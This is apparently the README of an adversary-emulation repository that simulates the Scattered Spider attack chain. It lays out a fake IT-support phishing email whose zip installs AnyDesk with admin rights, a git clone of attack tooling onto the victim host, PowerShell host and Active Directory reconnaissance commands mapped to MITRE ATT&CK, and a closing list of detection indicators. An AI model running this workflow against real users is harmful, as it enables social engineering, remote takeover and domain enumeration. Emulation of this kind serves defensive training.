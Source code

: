 # Scattered Spider Attack Chain - Complete Workflow

## Overview
This repository simulates the complete Scattered Spider attack chain for security research and defensive training purposes.

## Attack Vector Flow

### Phase 1: Initial Access (Email + AnyDesk)
```
User receives IT support email
    ↓
Downloads IT_AnyDesk_Support.zip
    ↓
Executes Deploy_AnyDesk_IT.bat (requires admin)
    ↓
AnyDesk installed with admin privileges
    ↓
Git CLI automatically installed (system-wide or user-level)
    ↓
User provides AnyDesk ID to "IT support"
    ↓
Attacker gains remote admin access
```

### Phase 2: Repository Staging
```
Attacker connects via AnyDesk
    ↓
Opens PowerShell on victim host
    ↓
git clone https://github.com/Jonathan-D-a-v-i-d/Scattered_Spider.git
    ↓
cd Scattered_Spider
```

### Phase 3: Host Reconnaissance
```
.\Deploy_VictimHostRecon.ps1
    ↓
Victim Host Recon Module loaded
    ↓
Run-Recon (executes all local host techniques)
    ↓
Results saved to C:\Intel\Logs\
```

### Phase 4: Domain Reconnaissance
```
.\Deploy_ADRecon.ps1
    ↓
RSAT installation (if needed)
    ↓
AD Reconnaissance Module loaded
    ↓
Run-ADRecon (executes all domain techniques)
    ↓
Results saved to C:\Intel\Logs\
```

## Files and Components

### Initial Access Tools
- `IT_AnyDesk_Support/IT_AnyDesk_Deployment.ps1` - Main AnyDesk installer with embedded config
- `IT_AnyDesk_Support/Deploy_AnyDesk_IT.bat` - User-friendly wrapper  
- `IT_AnyDesk_Support.zip` - Complete deployment package for email
- All tools consolidated in single deployment structure

### Git Installation Tools (Integrated)
- Git installation tools now embedded in IT_AnyDesk_Support deployment package
- Smart Git installer with privilege auto-detection
- No separate folder needed - all tools consolidated for deployment

### Reconnaissance Framework (Organized)
- `Recon/Host/VictimHostRecon.psm1` - Local host reconnaissance module
- `Recon/AD/ADRecon.psm1` - Active Directory reconnaissance module
- `Recon/AD/Install_RSAT.ps1` - RSAT tools installation
- `Deploy_VictimHostRecon.ps1` - Host recon deployment script
- `Deploy_ADRecon.ps1` - AD recon deployment script

### Full Chain Automation
- `Deploy_Complete_Chain.ps1` - Complete attack chain automation

### MITRE ATT&CK Techniques Covered

#### Host Reconnaissance (VictimHostRecon)
- **T1082** - System Information Discovery
- **T1087** - Account Discovery (Local)
- **T1057** - Process Discovery
- **T1518** - Software Discovery
- **T1046** - Network Service Discovery
- **T1083** - File and Directory Discovery

#### Domain Reconnaissance (ADRecon)
- **T1087.002** - Account Discovery (Domain)
- **T1615** - Group Policy Discovery
- **T1018** - Remote System Discovery
- **T1482** - Domain Trust Discovery

## Quick Deployment Commands

### For IT Support (Social Engineering)
```powershell
# Email the zip file, user runs:
Deploy_AnyDesk_IT.bat
```

### For Security Research (Complete Chain)
```powershell
# Simulate full attack chain:
.\Deploy_Complete_Chain.ps1 -AutoRecon

# Or individual phases:
.\Deploy_VictimHostRecon.ps1    # Host reconnaissance
.\Deploy_ADRecon.ps1            # Domain reconnaissance
```

### For Manual Operations
```powershell
# Host reconnaissance:
Import-Module .\Recon\Host\VictimHostRecon.psm1 -Force
Run-Recon

# Domain reconnaissance:
Import-Module .\Recon\AD\ADRecon.psm1 -Force
Run-ADRecon

# Individual techniques:
Get-HostInfo                    # System info
Invoke-AccountDiscovery         # Local accounts
Invoke-DomainUserDiscovery      # Domain users
Invoke-ComputerDiscovery        # Domain computers
```

## Output and Results

All reconnaissance results are centralized in:
```
C:\Intel\Logs\
├── VictimHost_SystemInfoDiscovery.txt
├── VictimHost_AccountDiscovery.txt
├── VictimHost_ProcessDiscovery.txt
├── VictimHost_SoftwareDiscovery.txt
├── VictimHost_NetworkServiceDiscovery.txt
├── VictimHost_FileDirectoryDiscovery.txt
├── VictimHost_ReconSummary.txt
├── ADRecon_DomainUserDiscovery.txt
├── ADRecon_GroupPolicyDiscovery.txt
├── ADRecon_ComputerDiscovery.txt
├── ADRecon_TrustDiscovery.txt
└── ADRecon_ReconSummary.txt
```

## Security Features

### Automated Git Installation
- **Smart Detection**: Auto-detects admin privileges
- **Fallback Strategy**: System-wide → User-level → Portable
- **Integrated Workflow**: AnyDesk deployment automatically ensures Git availability

### Professional Social Engineering
- **Legitimate Appearance**: Uses official AnyDesk installer
- **IT Branding**: Professional email templates and deployment packages
- **Error Handling**: Comprehensive logging and fallback mechanisms

### Comprehensive Reconnaissance
- **MITRE Mapped**: All techniques properly categorized (10 total techniques)
- **Modular Design**: Can execute individual techniques, module-level, or complete reconnaissance
- **Centralized Output**: Single location for all collected intelligence
- **Dual Scope**: Local host reconnaissance + Active Directory domain reconnaissance
- **RSAT Integration**: Automatic installation of required AD tools

## Defensive Considerations

This framework helps security teams understand:
- **Social Engineering Vectors**: How IT support requests can be weaponized
- **Post-Access Techniques**: What attackers do after gaining remote access
- **Detection Opportunities**: File locations and command patterns to monitor

Monitor for:
- Unexpected AnyDesk installations
- Git operations from non-developer accounts  
- File creation in `C:\Intel\Logs\`
- PowerShell execution of reconnaissance scripts
- RSAT installation attempts on workstations
- Active Directory enumeration commands (Get-ADUser, Get-ADComputer, etc.)
- Mass queries to domain controllers